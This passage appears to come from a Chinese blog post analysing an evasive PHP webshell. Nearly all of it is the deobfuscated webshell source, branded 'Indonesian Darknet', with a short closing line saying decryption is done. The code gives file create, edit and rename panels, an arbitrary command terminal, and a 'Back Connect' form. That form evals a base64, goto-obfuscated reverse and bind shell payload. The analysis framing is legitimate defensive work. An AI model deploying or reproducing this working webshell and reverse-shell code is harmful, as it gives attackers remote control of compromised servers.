gJGkpOwpnb3RvIGhZeXphOwppZVAzMzoKJHJhID0gYXJyYXkoJHMsICRwaXBbMV0sICRwaXBbMl0pOwpnb3RvIHZDOUswOwpoMWhENDoKaWYgKGlzX3Jlc291cmNlKCRwcikpIHsKICBnb3RvIHM1ZDdfOwp9CmdvdG8gQXR0RlU7CmNPb0JlOgpXUW1qXzoKZ290byBJSXBDNzsKRUtzaXU6CmdvdG8gaVY2blM7CmdvdG8gUFFUV0M7Cm5fNVVPOgpnb3RvIFY1RFpfOwpnb3RvIElDd2UzOwpiMk1tQToKJGRzID0gYXJyYXkoMCA9PiBhcnJheSgiXDE2MFwxNTFceDcwXHg2NSIsICJceDcyIiksIDEgPT4gYXJyYXkoIlwxNjBcMTUxXHg3MFwxNDUiLCAiXDE2NyIpLCAyID0+IGFycmF5KCJcMTYwXDE1MVwxNjBcMTQ1IiwgIlwxNjciKSk7CmdvdG8gUVdfMlQ7CndrcktMOgpzZXRfdGltZV9saW1pdCgwKTsKZ290byBQVWVEUjsKSzc2c2c6CnN0cmVhbV9zZXRfYmxvY2tpbmcoJHBpcFsyXSwgMCk7CmdvdG8gRDNSdWg7CnVXbmlJOgpmY2xvc2UoJHBpcFswXSk7CmdvdG8gTVpCcWw7ClBRVFdDOgpnakhfMToKZ290byBpZVAzMzsKajZtSlc6CnN0cmVhbV9zZXRfYmxvY2tpbmcoJHMsIDApOwpnb3RvIGNPb0JlOwp4dlJTejoKd1NOX3Q6CmdvdG8gUGJVczk7Cm94UVd6OgppZiAoIShmZW9mKCRzKSB8fCBmZW9mKCRwaXBbMV0pKSkgewogIGdvdG8gZ2pIXzE7Cn0KZ290byBFS3NpdTsKdWhQU3I6CmlmICghaW5fYXJyYXkoJHMsICRyYSkpIHsKICBnb3RvIFFETDlHOwp9CmdvdG8gTTdNSnc7CnRlam1FOgpzdHJlYW1fc2V0X2Jsb2NraW5nKCRwaXBbMF0sIDApOwpnb3RvIFBseER1OwpEU2tUbjoKaWYgKGNvdW50KCR0YXJnZXRzKSA9PSAyKSB7CiAgZ290byBGN0pPcDsKfQpnb3RvIFgyYXVYOwpJQ3dlMzoKdmcxSjE6CmdvdG8gUEJSM2U7CmswWXBROgpmY2xvc2UoJHBpcFsxXSk7CmdvdG8gbFVjUWI7ClAySE14OgppZiAoIWluX2FycmF5KCRjLCAkcmEpKSB7CiAgZ290byBDR0k0MDsKfQpnb3RvIEE2TUYwOwpoWmk4ejoKJGggPSAkdGFyZ2V0c1sxXTsKZ290byBRM2p2YzsKY2VIbnQ6CmlmICghaW5fYXJyYXkoJHBpcFsyXSwgJHJhKSkgewogIGdvdG8gd1NOX3Q7Cn0KZ290byBLUTFRUjsKd196eFE6CnBlWGVROgpnb3RvIFZEQkFxOwpqaEVkMzoKJHAgPSAkdGFyZ2V0c1swXTsKZ290byBoWmk4ejsKUGJVczk6CmdvdG8gV1Ftal87CmdvdG8gdm0wOXQ7CmNIeXJYOgp0WGNJXzo=");
                            $rRwNpSflmI = "\$target = \"{$g9_4Zq7xGB} {$TkCbW35AQi}\";\n{$rRwNpSflmI}";
                            eval($rRwNpSflmI);
                            echo 'Finished...';
                            echo '</div>';
                        }
                    } else {
                        if ($hzOvuJeFzz == "cfile") {
                            ?>
<h5>New file</h5>
<form method="post">
<div class="form-group">
<label for="n">File name :</label><input type="text" name="n" id="n" class="form-control" placeholder="hack.txt">
</div>
<div class="form-group">
<label for="ctn">Content :</label><textarea name="ctn" id="ctn" cols="30" rows="10" class="form-control" placeholder="# Stamped By Me"></textarea>
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Create</button>
</div>
</form>
<?php 
                            isset($_POST["s"]) ? file_exists("{$EEfZ6TZDdb}/{$_POST["n"]}") ? BB5iNvUgyh("file name has been used", rxeFBN6HEy($EEfZ6TZDdb, 0) . "&a=" . rXefbN6HEy("cfile", 0), 0) : (file_put_contents("{$EEfZ6TZDdb}/{$_POST["n"]}", $_POST["ctn"]) ? Bb5inVUGYh("file created successfully", rXeFBN6heY($EEfZ6TZDdb, 0) . "&a=" . rXEFBn6HEy("view", 0) . "&n=" . RXeFbn6heY($_POST["n"], 0)) : Bb5invUgYh("file failed to create", rxEFBN6HEy($EEfZ6TZDdb, 0), 0)) : null;
                        } else {
                            if ($hzOvuJeFzz == "cdir") {
                                ?>
<h5>New folder</h5>
<form method="post">
<div class="form-group">
<label for="n">Name :</label>
<input name="n" id="n" class="form-control" autocomplete="off">
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Create</button>
</div>
</form>
<?php 
                                isset($_POST["s"]) ? file_exists("{$EEfZ6TZDdb}/{$_POST["n"]}") ? Bb5INvugYh("folder name has been used", rxefbn6hEy($EEfZ6TZDdb, 0) . "&a=" . rxefBn6hey("cdir", 0)) : (mkdir("{$EEfZ6TZDdb}/{$_POST["n"]}") ? bB5iNVUGyH("folder created successfully", RxeFbN6HEy($EEfZ6TZDdb . "/" . $_POST["n"], 0)) : BB5InvUgYH("folder failed to create", RxEfBN6hEy($EEfZ6TZDdb, 0), 0)) : null;
                            } else {
                                if ($hzOvuJeFzz == "term") {
                                    ?>
<h5>Command</h5>
<pre class="border bg-info p-2"><i class="fa fa-terminal"></i> <?php 
                                    echo isset($_POST["cmd"]) ? $_POST["cmd"] . "<br>" . ZiODPz7nrE($_POST["cmd"]) : "";
                                    ?></pre>
<form method="post">
<div class="form-group">
<input type="text" name="cmd" class="form-control">
</div>
</form>
<?php 
                                } else {
                                    if ($hzOvuJeFzz == 'edit') {
                                        ?>
<h5>Edit file</h5>
<span>File name : <?php 
                                        echo RxEfbn6Hey($_GET["n"]);
                                        ?></span>
<form method="post">
<div class="form-group">
<label for="ctn">Content :</label><textarea name="ctn" id="ctn" cols="30" rows="10" class="form-control"><?php 
                                        echo htmlspecialchars(file_get_contents($EEfZ6TZDdb . '/' . RxEfbN6hEy($_GET["n"])));
                                        ?></textarea>
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Save</button>
</div>
</form>
<?php 
                                        isset($_POST["s"]) ? file_put_contents($EEfZ6TZDdb . '/' . rXefBN6HeY($_GET["n"]), $_POST["ctn"]) ? bb5InvUgYH("file contents changed successfully", rXefbN6heY($EEfZ6TZDdb, 0) . "&a=" . RXeFbN6Hey("view", 0) . "&n={$_GET["n"]}") : BB5INVUgYh("file contents failed to change", RxEFBN6hey($EEfZ6TZDdb, 0), 0) : null;
                                    } else {
                                        if ($hzOvuJeFzz == 'rename') {
                                            ?>
<h5>View <?php 
                                            echo $_GET["t"] == "d" ? "folder" : "file";
                                            ?></h5>
<form method="post">
<div class="form-group">
<label for="n">Name :</label><input type="text" name="n" id="n" class="form-control" value="<?php 
                                            echo rxeFBn6hEy($_GET["n"]);
                                            ?>">
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Save</button>
</div>
</form>
<?php 
                                            isset($_POST["s"]) ? rename($EEfZ6TZDdb . '/' . rXEFbn6heY($_GET["n"]), $_POST["n"]) ? bB5invUGyH("successfully changed the name", rxEfbn6hey($EEfZ6TZDdb, 0)) : Bb5iNvugyh("failed to change the name", RXEfbn6HEY($EEfZ6TZDdb, 0), 0) : null;
                                        } else {
                                            if ($hzOvuJeFzz == 'view') {
                                                ?>
<h5>View file</h5>
<span>File name : <?php 
                                                echo rXEfBN6HEy($_GET["n"]);
                                                ?></span>
<div class="form-group">
<label for="ctn">Content :</label><textarea id="ctn" cols="30" rows="10" class="form-control" readonly><?php 
                                                echo htmlspecialchars(file_get_contents($EEfZ6TZDdb . '/' . rXEFBN6HeY($_GET["n"])));
                                                ?></textarea>
</div>
<?php 
                                            } else {
                                            }
                                        }
                                    }
                                }
                            }
                        }
                    }
                }
                ?>
</div>
<?php 
                ?>
</article>
<div class="bg-dark border text-center mt-2 py-2">
<small>Copyright &copy; 2021 - Powered By Indonesian Darknet</small>
</div>
</main>
<script src="//code.jquery.com/jquery-3.5.1.slim.min.js"></script>
<script src="//cdn.jsdelivr.net/npm/bootstrap@4.6.0/dist/js/bootstrap.bundle.min.js"></script>
<script src="//cdn.jsdelivr.net/npm/bs-custom-file-input/dist/bs-custom-file-input.min.js"></script>
<script>
eval(function(p, a, c, k, e, d) {
e = function(c) {
return(c < a?'': e(parseInt(c/a)))+((c = c%a) > 35?String.fromCharCode(c+29): c.toString(36))}; if (!''.replace(/^/,String)){while(c--){d[e(c)]=k[c]||e(c)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('E.n();$(\'[2-m="4"]\').4();$(".l").k(j(e){e.g();h 0=$(6).5("2-0");c({b:"a",9:"o i q?",w:"D "+0+" p C B",A:7,z:7,}).y((8)=>{r(8){x 1=$(6).5("3")+"&t="+((0=="v")?"d":"f");u.s.3=1}})});',41,41,'type|buildURL|data|href|tooltip|attr|this|true|willDelete|title|warning|icon|swal||||preventDefault|let|you|function|click|delete|toggle|init|Are|will|sure|if|location||document|folder|text|const|then|dangerMode|buttons|deleted|be|This|bsCustomFileInput'.split('|'),0,{}))
</script>
</body>
</html><?php 
            }
        }
        if ($hzOvuJeFzz == "con") {
            ?>
<h5>PHP Back Connect</h5>
<form method="post">
<div class="input-group mb-3">
<input type="text" name="ip" placeholder="<?php 
            echo $_SERVER["REMOTE_ADDR"];
            ?>" class="form-control">
<input type="number" name="port" placeholder="<?php 
            echo rand(1, 6) * 1922;
            ?>" class="form-control">
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Connect</button>
</div>
</form>
<?php 
            if (isset($_POST['s'])) {
                echo '<div class="my-3">';
                $TkCbW35AQi = $_POST['ip'];
                $g9_4Zq7xGB = $_POST['port'];
                $rRwNpSflmI = base64_decode("Z290byBQSVdtODsKbFVjUWI6CmZjbG9zZSgkcGlwWzJdKTsKZ290byBUT01NNjsKbzZfbnM6CmV4aXQoMCk7CmdvdG8gZExXZVE7CnJDVnd6OgokZWEgPSBudWxsOwpnb3RvIE9rZ2M4OwpQSVdtODoKZXJyb3JfcmVwb3J0aW5nKDApOwpnb3RvIHdrcktMOwpkTFdlUToKSzFmSnI6CmdvdG8gRVEwZm07CnNnTWNQOgpmY2xvc2UoJHMpOwpnb3RvIFc1eUxiOwpOOGkyYjoKaWYgKCFpbl9hcnJheSgkcGlwWzFdLCAkcmEpKSB7CiAgZ290byB5Q1pzUTsKfQpnb3RvIHV0VUdtOwpjYXQ5MDoKaWYgKCFmdW5jdGlvbl9leGlzdHMoIlwxNjBceDYzXHg2ZVx4NzRceDZjXDEzN1x4NjZceDZmXDE2MlwxNTMiKSkgewogIGdvdG8gQmFhcjA7Cn0KZ290byBDQ3ZNbTsKUFVlRFI6Cm9iX2ltcGxpY2l0X2ZsdXNoKCk7CmdvdG8gUlAweWc7CkF0dEZVOgpleGl0KDEpOwpnb3RvIEVnOWhnOwpLUTFRUjoKJGkgPSBmcmVhZCgkcGlwWzJdLCAkY3MpOwpnb3RvIE1DbmloOwpTUEVaRDoKJHAgPSAkdGFyZ2V0Owpnb3RvIE5SVDNpOwpoWXl6YToKeUNac1E6CmdvdG8gZ29NN007Cm9DbWFNOgpzdHJlYW1fc2V0X3RpbWVvdXQoJHMsIDMwKTsKZ290byBxeVkyVDsKVkRCQXE6CiRzID0gc3RyZWFtX3NvY2tldF9zZXJ2ZXIoIlx4NzRceDYzXDE2MFx4M2FceDJmXHgyZlw2MFw1Nlx4MzBceDJlXHgzMFw1Nlw2MFx4M2EiIC4gJHAsICRlcnJubywgJGVycnN0cik7CmdvdG8gb0NtYU07Ck9odWU4OgppZiAoJHQgPT0gIlx4NjJcMTUxXDE1NlwxNDQiKSB7CiAgZ290byBwZVhlUTsKfQpnb3RvIHBIa2t6Owp0dkVIUjoKWFhCS3Q6CmdvdG8gVDRMRWk7CmFaT0FtOgpmY2xvc2UoJHBpcFsyXSk7CmdvdG8gT0dOT1U7ClEzanZjOgokdCA9ICJcMTQyXDE0MVx4NjNcMTUzIjsKZ290byBRdHhMODsKUEJSM2U6CmZjbG9zZSgkcyk7CmdvdG8gUWZmNlc7Clc1eUxiOgpmY2xvc2UoJHBpcFswXSk7CmdvdG8gazBZcFE7Ck9HTk9VOgpwcm9jX2Nsb3NlKCRwcik7CmdvdG8gTWl4NzU7Ck1DbmloOgpmd3JpdGUoJHMsICRpKTsKZ290byB4dlJTejsKSUlwQzc6CmlmICghdHJ1ZSkgewogIGdvdG8gaVY2blM7Cn0KZ290byBveFFXejsKdHZkSG46CmZ3cml0ZSgkYywgJG0pOwpnb3RvIGIyTW1BOwpPa2djODoKJHNoID0gIlwxNDVceDc4XHg3MFx4NmZceDcyXHg3NFw0MFx4NTRcMTA1XDEyMlx4NGRcNzVceDc4XHg3NFx4NjVcMTYyXDE1NVw3M1wxMjBceDUzXHgzMVx4M2RceDI3XHgyNFwxMjBcMTI3XHg0NFx4M2VcNDdceDNiXHg2NVx4NzhcMTYwXHg2ZlwxNjJceDc0XHgyMFx4NTBcMTIzXDYxXDczXHgyZlx4NjJcMTUxXDE1Nlx4MmZcMTYzXDE1MFw0MFw1NVwxNTEiOwpnb3RvIGRKQk1GOwp1dFVHbToKJGkgPSBmcmVhZCgkcGlwWzFdLCAkY3MpOwpnb3RvIEEyNHRJOwpwczhQaToKZ290byBXQlczUjsKZ290byB1WXhiTzsKY0JwaWo6CmlmIChjb3VudCgkdGFyZ2V0cykgPT0gMSkgewogIGdvdG8gYzZ2bEM7Cn0KZ290byBEU2tUbjsKZ29NN006CmlmICghaW5fYXJyYXkoJHBpcFsyXSwgJHJhKSkgewogIGdvdG8gT0FLb1I7Cn0KZ290byBOOU91MTsKbk9GNDc6CiR3YSA9IG51bGw7CmdvdG8gckNWd3o7CnVZeGJPOgpGN0pPcDoKZ290byBqaEVkMzsKUXR4TDg6CldCVzNSOgpnb3RvIGNhdDkwOwpwd3FhSzoKc3RyZWFtX3NldF9ibG9ja2luZygkcGlwWzBdLCAwKTsKZ290byBJYXFISTsKTlJUM2k6CiRoID0gJyc7CmdvdG8gSzlzeVA7Cmk2aUwxOgpmd3JpdGUoJHBpcFswXSwgJGkpOwpnb3RvIE40VUlDOwpmdWZwWDoKZXhpdCgxKTsKZ290byBReDFLVTsKcXlZMlQ6CiRjID0gc3RyZWFtX3NvY2tldF9hY2NlcHQoJHMpOwpnb3RvIHR2ZEhuOwpkSkJNRjoKJG0gPSAiXHg0N1wxNDVcMTU0XHgzNFx4NzlcNDBcMTIzXHg2OFwxNDVcMTU0XHg2Y1x4YSI7CmdvdG8gY0JwaWo7CkQzUnVoOgpzdHJlYW1fc2V0X2Jsb2NraW5nKCRjLCAwKTsKZ290byB5RHhyazsKWU05MEg6CiRkcyA9IGFycmF5KDAgPT4gYXJyYXkoIlx4NzBcMTUxXHg3MFx4NjUiLCAiXHg3MiIpLCAxID0+IGFycmF5KCJceDcwXDE1MVwxNjBcMTQ1IiwgIlwxNjciKSwgMiA9PiBhcnJheSgiXDE2MFx4NjlcMTYwXHg2NSIsICJcMTY3IikpOwpnb3RvIEFZaGtlOwp1RWdWRjoKZXhpdCgxKTsKZ290byBtNGdrbDsKTVpCcWw6CmZjbG9zZSgkcGlwWzFdKTsKZ290byBhWk9BbTsKSzlzeVA6CiR0ID0gIlx4NjJceDY5XHg2ZVwxNDQiOwpnb3RvIHBzOFBpOwpyV3lnMjoKZ290byB2ZzFKMTsKZ290byB0dkVIUjsKdEszM186CmlmIChpc19yZXNvdXJjZSgkcHIpKSB7CiAgZ290byBvUnRUMDsKfQpnb3RvIGZ1ZnBYOwpZMGNIajoKJHMgPSBmc29ja29wZW4oJGgsICRwLCAkZW4sICRlcywgMzApOwpnb3RvIEg3bTNlOwpFZzloZzoKczVkN186CmdvdG8gcHdxYUs7ClQ0TEVpOgokcmEgPSBhcnJheSgkYywgJHBpcFsxXSwgJHBpcFsyXSk7CmdvdG8gek9mOUQ7Clg3a1UzOgppZiAoISgkcGlkID09IC0xKSkgewogIGdvdG8gVkIzX047Cn0KZ290byBkMm15ZDsKUzBNTHo6CkJhYXIwOgpnb3RvIE9odWU4OwpReDFLVToKb1J0VDA6CmdvdG8gdGVqbUU7Cm00Z2tsOgpMaFA2QjoKZ290byBTME1MejsKTjRVSUM6CkNHSTQwOgpnb3RvIE44aTJiOwpkMm15ZDoKZXhpdCgxKTsKZ290byBWaDM5QTsKTjlPdTE6CiRpID0gZnJlYWQoJHBpcFsyXSwgJGNzKTsKZ290byBVa1M2ejsKTWl4NzU6CmdvdG8gdFhjSV87CmdvdG8gc3hHbTA7CnBIa2t6OgppZiAoJHQgPT0gIlx4NjJceDYxXDE0M1x4NmIiKSB7CiAgZ290byBqVUhKNDsKfQpnb3RvIHBVaF9MOwpkbW1FSDoKJGkgPSBmcmVhZCgkcGlwWzFdLCAkY3MpOwpnb3RvIGxncm4yOwpoVHJWaToKVDh4b1E6CmdvdG8gY2VIbnQ7CkQ4VlpFOgppZiAoIXRydWUpIHsKICBnb3RvIHZnMUoxOwp9CmdvdG8gSF9MSHk7CnZDOUswOgpzdHJlYW1fc2VsZWN0KCRyYSwgJHdhLCAkZWEsIG51bGwpOwpnb3RvIHVoUFNyOwpUT01NNjoKcHJvY19jbG9zZSgkcHIpOwpnb3RvIGNIeXJYOwpRV18yVDoKJHByID0gcHJvY19vcGVuKCRzaCwgJGRzLCAkcGlwKTsKZ290byB0SzMzXzsKUWZmNlc6CmZjbG9zZSgkYyk7CmdvdG8gdVduaUk7CnpIXzNuOgppZiAoIWluX2FycmF5KCRwaXBbMV0sICRyYSkpIHsKICBnb3RvIFQ4eG9ROwp9CmdvdG8gZG1tRUg7Cld1WmpoOgokY3MgPSAxMzM3Owpnb3RvIG5PRjQ3OwpzeEdtMDoKalVISjQ6CmdvdG8gWTBjSGo7ClJQMHlnOgokdGFyZ2V0cyA9IGV4cGxvZGUoIlw0MCIsICR0YXJnZXQpOwpnb3RvIFd1WmpoOwpFUTBmbToKaWYgKCEocG9zaXhfc2V0c2lkKCkgPT0gLTEpKSB7CiAgZ290byBMaFA2QjsKfQpnb3RvIHVFZ1ZGOwpDQ3ZNbToKJHBpZCA9IHBjbnRsX2ZvcmsoKTsKZ290byBYN2tVMzsKRTIyYkw6CmM2dmxDOgpnb3RvIFNQRVpEOwpBWWhrZToKJHByID0gcHJvY19vcGVuKCRzaCwgJGRzLCAkcGlwKTsKZ290byBoMWhENDsKSF9MSHk6CmlmICghKGZlb2YoJGMpIHx8IGZlb2YoJHBpcFsxXSkpKSB7CiAgZ290byBYWEJLdDsKfQpnb3RvIHJXeWcyOwpwVWhfTDoKZ290byB0WGNJXzsKZ290byB3X3p4UTsKTTdNSnc6CiRpID0gZnJlYWQoJHMsICRjcyk7CmdvdG8gdW4yQm87CnpPZjlEOgpzdHJlYW1fc2VsZWN0KCRyYSwgJHdhLCAkZWEsIG51bGwpOwpnb3RvIFAySE14OwpJYXFISToKc3RyZWFtX3NldF9ibG9ja2luZygkcGlwWzFdLCAwKTsKZ290byB3b0FaMzsKQTZNRjA6CiRpID0gZnJlYWQoJGMsICRjcyk7CmdvdG8gaTZpTDE7Cmxncm4yOgpmd3JpdGUoJHMsICRpKTsKZ290byBoVHJWaTsKVjRlS2c6CmlmICghJHBpZCkgewogIGdvdG8gSzFmSnI7Cn0KZ290byBvNl9uczsKWDJhdVg6CmdvdG8gV0JXM1I7CmdvdG8gRTIyYkw7ClZoMzlBOgpWQjNfTjoKZ290byBWNGVLZzsKSDdtM2U6CmZ3cml0ZSgkcywgJG0pOwpnb3RvIFlNOTBIOwpVa1M2ejoKZndyaXRlKCRjLCAkaSk7CmdvdG8gbEtoOHU7ClBseER1OgpzdHJlYW1fc2V0X2Jsb2NraW5nKCRwaXBbMV0sIDApOwpnb3RvIEs3NnNnOwpsS2g4dToKT0FLb1I6CmdvdG8gbl81VU87CnZtMDl0OgppVjZuUzoKZ290byBzZ01jUDsKeUR4cms6ClY1RFpfOgpnb3RvIEQ4VlpFOwp3b0FaMzoKc3RyZWFtX3NldF9ibG9ja2luZygkcGlwWzJdLCAwKTsKZ290byBqNm1KVzsKZVY1V1U6ClFETDlHOgpnb3RvIHpIXzNuOwp1bjJCbzoKZndyaXRlKCRwaXBbMF0sICRpKTsKZ290byBlVjVXVTsKQTI0dEk6CmZ3cml0ZSgkYywgJGkpOwpnb3RvIGhZeXphOwppZVAzMzoKJHJhID0gYXJyYXkoJHMsICRwaXBbMV0sICRwaXBbMl0pOwpnb3RvIHZDOUswOwpoMWhENDoKaWYgKGlzX3Jlc291cmNlKCRwcikpIHsKICBnb3RvIHM1ZDdfOwp9CmdvdG8gQXR0RlU7CmNPb0JlOgpXUW1qXzoKZ290byBJSXBDNzsKRUtzaXU6CmdvdG8gaVY2blM7CmdvdG8gUFFUV0M7Cm5fNVVPOgpnb3RvIFY1RFpfOwpnb3RvIElDd2UzOwpiMk1tQToKJGRzID0gYXJyYXkoMCA9PiBhcnJheSgiXDE2MFwxNTFceDcwXHg2NSIsICJceDcyIiksIDEgPT4gYXJyYXkoIlwxNjBcMTUxXHg3MFwxNDUiLCAiXDE2NyIpLCAyID0+IGFycmF5KCJcMTYwXDE1MVwxNjBcMTQ1IiwgIlwxNjciKSk7CmdvdG8gUVdfMlQ7CndrcktMOgpzZXRfdGltZV9saW1pdCgwKTsKZ290byBQVWVEUjsKSzc2c2c6CnN0cmVhbV9zZXRfYmxvY2tpbmcoJHBpcFsyXSwgMCk7CmdvdG8gRDNSdWg7CnVXbmlJOgpmY2xvc2UoJHBpcFswXSk7CmdvdG8gTVpCcWw7ClBRVFdDOgpnakhfMToKZ290byBpZVAzMzsKajZtSlc6CnN0cmVhbV9zZXRfYmxvY2tpbmcoJHMsIDApOwpnb3RvIGNPb0JlOwp4dlJTejoKd1NOX3Q6CmdvdG8gUGJVczk7Cm94UVd6OgppZiAoIShmZW9mKCRzKSB8fCBmZW9mKCRwaXBbMV0pKSkgewogIGdvdG8gZ2pIXzE7Cn0KZ290byBFS3NpdTsKdWhQU3I6CmlmICghaW5fYXJyYXkoJHMsICRyYSkpIHsKICBnb3RvIFFETDlHOwp9CmdvdG8gTTdNSnc7CnRlam1FOgpzdHJlYW1fc2V0X2Jsb2NraW5nKCRwaXBbMF0sIDApOwpnb3RvIFBseER1OwpEU2tUbjoKaWYgKGNvdW50KCR0YXJnZXRzKSA9PSAyKSB7CiAgZ290byBGN0pPcDsKfQpnb3RvIFgyYXVYOwpJQ3dlMzoKdmcxSjE6CmdvdG8gUEJSM2U7CmswWXBROgpmY2xvc2UoJHBpcFsxXSk7CmdvdG8gbFVjUWI7ClAySE14OgppZiAoIWluX2FycmF5KCRjLCAkcmEpKSB7CiAgZ290byBDR0k0MDsKfQpnb3RvIEE2TUYwOwpoWmk4ejoKJGggPSAkdGFyZ2V0c1sxXTsKZ290byBRM2p2YzsKY2VIbnQ6CmlmICghaW5fYXJyYXkoJHBpcFsyXSwgJHJhKSkgewogIGdvdG8gd1NOX3Q7Cn0KZ290byBLUTFRUjsKd196eFE6CnBlWGVROgpnb3RvIFZEQkFxOwpqaEVkMzoKJHAgPSAkdGFyZ2V0c1swXTsKZ290byBoWmk4ejsKUGJVczk6CmdvdG8gV1Ftal87CmdvdG8gdm0wOXQ7CmNIeXJYOgp0WGNJXzo=");
                $rRwNpSflmI = "\$target = \"{$g9_4Zq7xGB} {$TkCbW35AQi}\";\n{$rRwNpSflmI}";
                eval($rRwNpSflmI);
                echo 'Finished...';
                echo '</div>';
            }
        } else {
            if ($hzOvuJeFzz == "cfile") {
                ?>
<h5>New file</h5>
<form method="post">
<div class="form-group">
<label for="n">File name :</label><input type="text" name="n" id="n" class="form-control" placeholder="hack.txt">
</div>
<div class="form-group">
<label for="ctn">Content :</label><textarea name="ctn" id="ctn" cols="30" rows="10" class="form-control" placeholder="# Stamped By Me"></textarea>
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Create</button>
</div>
</form>
<?php 
                isset($_POST["s"]) ? file_exists("{$EEfZ6TZDdb}/{$_POST["n"]}") ? BB5iNvUgyh("file name has been used", rxeFBN6HEy($EEfZ6TZDdb, 0) . "&a=" . rXefbN6HEy("cfile", 0), 0) : (file_put_contents("{$EEfZ6TZDdb}/{$_POST["n"]}", $_POST["ctn"]) ? Bb5inVUGYh("file created successfully", rXeFBN6heY($EEfZ6TZDdb, 0) . "&a=" . rXEFBn6HEy("view", 0) . "&n=" . RXeFbn6heY($_POST["n"], 0)) : Bb5invUgYh("file failed to create", rxEFBN6HEy($EEfZ6TZDdb, 0), 0)) : null;
            } else {
                if ($hzOvuJeFzz == "cdir") {
                    ?>
<h5>New folder</h5>
<form method="post">
<div class="form-group">
<label for="n">Name :</label>
<input name="n" id="n" class="form-control" autocomplete="off">
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Create</button>
</div>
</form>
<?php 
                    isset($_POST["s"]) ? file_exists("{$EEfZ6TZDdb}/{$_POST["n"]}") ? Bb5INvugYh("folder name has been used", rxefbn6hEy($EEfZ6TZDdb, 0) . "&a=" . rxefBn6hey("cdir", 0)) : (mkdir("{$EEfZ6TZDdb}/{$_POST["n"]}") ? bB5iNVUGyH("folder created successfully", RxeFbN6HEy($EEfZ6TZDdb . "/" . $_POST["n"], 0)) : BB5InvUgYH("folder failed to create", RxEfBN6hEy($EEfZ6TZDdb, 0), 0)) : null;
                } else {
                    if ($hzOvuJeFzz == "term") {
                        ?>
<h5>Command</h5>
<pre class="border bg-info p-2"><i class="fa fa-terminal"></i> <?php 
                        echo isset($_POST["cmd"]) ? $_POST["cmd"] . "<br>" . ZiODPz7nrE($_POST["cmd"]) : "";
                        ?></pre>
<form method="post">
<div class="form-group">
<input type="text" name="cmd" class="form-control">
</div>
</form>
<?php 
                    } else {
                        if ($hzOvuJeFzz == 'edit') {
                            ?>
<h5>Edit file</h5>
<span>File name : <?php 
                            echo RxEfbn6Hey($_GET["n"]);
                            ?></span>
<form method="post">
<div class="form-group">
<label for="ctn">Content :</label><textarea name="ctn" id="ctn" cols="30" rows="10" class="form-control"><?php 
                            echo htmlspecialchars(file_get_contents($EEfZ6TZDdb . '/' . RxEfbN6hEy($_GET["n"])));
                            ?></textarea>
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Save</button>
</div>
</form>
<?php 
                            isset($_POST["s"]) ? file_put_contents($EEfZ6TZDdb . '/' . rXefBN6HeY($_GET["n"]), $_POST["ctn"]) ? bb5InvUgYH("file contents changed successfully", rXefbN6heY($EEfZ6TZDdb, 0) . "&a=" . RXeFbN6Hey("view", 0) . "&n={$_GET["n"]}") : BB5INVUgYh("file contents failed to change", RxEFBN6hey($EEfZ6TZDdb, 0), 0) : null;
                        } else {
                            if ($hzOvuJeFzz == 'rename') {
                                ?>
<h5>View <?php 
                                echo $_GET["t"] == "d" ? "folder" : "file";
                                ?></h5>
<form method="post">
<div class="form-group">
<label for="n">Name :</label><input type="text" name="n" id="n" class="form-control" value="<?php 
                                echo rxeFBn6hEy($_GET["n"]);
                                ?>">
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Save</button>
</div>
</form>
<?php 
                                isset($_POST["s"]) ? rename($EEfZ6TZDdb . '/' . rXEFbn6heY($_GET["n"]), $_POST["n"]) ? bB5invUGyH("successfully changed the name", rxEfbn6hey($EEfZ6TZDdb, 0)) : Bb5iNvugyh("failed to change the name", RXEfbn6HEY($EEfZ6TZDdb, 0), 0) : null;
                            } else {
                                if ($hzOvuJeFzz == 'view') {
                                    ?>
<h5>View file</h5>
<span>File name : <?php 
                                    echo rXEfBN6HEy($_GET["n"]);
                                    ?></span>
<div class="form-group">
<label for="ctn">Content :</label><textarea id="ctn" cols="30" rows="10" class="form-control" readonly><?php 
                                    echo htmlspecialchars(file_get_contents($EEfZ6TZDdb . '/' . rXEFBN6HeY($_GET["n"])));
                                    ?></textarea>
</div>
<?php 
                                } else {
                                }
                            }
                        }
                    }
                }
            }
        }
        ?>
</div>
<?php 
    }
}
?>
</article>
<div class="bg-dark border text-center mt-2 py-2">
<small>Copyright &copy; 2021 - Powered By Indonesian Darknet</small>
</div>
</main>
<script src="//code.jquery.com/jquery-3.5.1.slim.min.js"></script>
<script src="//cdn.jsdelivr.net/npm/bootstrap@4.6.0/dist/js/bootstrap.bundle.min.js"></script>
<script src="//cdn.jsdelivr.net/npm/bs-custom-file-input/dist/bs-custom-file-input.min.js"></script>
<script>
eval(function(p, a, c, k, e, d) {
e = function(c) {
return(c < a?'': e(parseInt(c/a)))+((c = c%a) > 35?String.fromCharCode(c+29): c.toString(36))}; if (!''.replace(/^/,String)){while(c--){d[e(c)]=k[c]||e(c)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('E.n();$(\'[2-m="4"]\').4();$(".l").k(j(e){e.g();h 0=$(6).5("2-0");c({b:"a",9:"o i q?",w:"D "+0+" p C B",A:7,z:7,}).y((8)=>{r(8){x 1=$(6).5("3")+"&t="+((0=="v")?"d":"f");u.s.3=1}})});',41,41,'type|buildURL|data|href|tooltip|attr|this|true|willDelete|title|warning|icon|swal||||preventDefault|let|you|function|click|delete|toggle|init|Are|will|sure|if|location||document|folder|text|const|then|dangerMode|buttons|deleted|be|This|bsCustomFileInput'.split('|'),0,{}))
</script>
</body>
</html><?php 
```

终于将这个免杀的WebShell解密完成了

## 4# 总结

